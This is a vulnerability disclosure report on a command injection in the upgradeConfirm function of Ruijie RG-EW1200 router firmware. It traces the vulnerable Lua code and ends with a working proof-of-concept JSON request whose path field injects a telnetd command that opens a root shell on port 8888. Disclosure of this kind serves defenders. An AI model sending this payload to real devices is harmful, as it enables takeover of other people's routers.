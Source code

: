 # Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    RG-EW1200 Wireless Routers

**Affected firmware version:**    EW_3.0(1)B11P204 (the latest release version, 2023.1.18)

**Firmware download address:**    [https://www.ruijienetworks.com/support/documents/slide_77459](https://www.ruijienetworks.com/support/documents/slide_77459 "https://www.ruijienetworks.com/support/documents/slide_77459")

# Overview

`Ruijie Networks RG-EW1200 Wireless Routers EW_3.0(1)B11P204` was discovered to contain a `command injection vulnerability` via the `params.path` parameter in the `upgradeConfirm` function of `system.lua`. Successful exploit could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

## Vulnerability point

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/system.lua`.**

In the `upgradeConfirm` function of `/usr/lib/lua/luci/modules/system.lua`. When `params.isEstAll` is empty, the parameter `params.path` is directly spliced through the format string `%q` into the variable `_shell` without checking and execute as a parameter of `forkExec`.

![](./pic/4.png)

Therefore, an attacker can inject arbitrary commands into `params.path` to gain control of the remote devices.

## Call flow

In the file `/usr/lib/lua/luci/controller/eweb/api.lua`, we can see `system.lua` corresponding `API` is `/system`.

![](./pic/1.png)

![](./pic/2.png)

Therefore, `system.lua` can be accessed via URL `/cgi-bin/luci/api/system`, and the request body can be posted as `json`.

In the `handle` function of `/usr/lib/lua/luci/utils/jsonrpc.lua`, use the `resolve` function to find the relevant function in `system.lua` corresponding to the `method` field of the `POST` request body. Then it calls `copcall` through `proxy` to run the function, and use the contents of `params` field as its parameter.

![](./pic/3.png)

# Poc

Send the following as a `POST` request to the URL `/cgi-bin/luci/api/system`. 

```
{
	"method": "upgradeConfirm",
	"params": {
		"isPersist": "aaaa",
		"path": "`telnetd -p 8888 -l /bin/sh`"
	}
}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`. From the echo information, we can judge that the command injection is successful.

![](./pic/5.png)

At this point, we use the injection command `telnetd -p 8888 -l /bin/sh` to open the corresponding `telnet` port `8888`, and directly start the shell.

The attacker can log in to the remote device directly through `telnet` and control it entirely.

![](./pic/6.png)
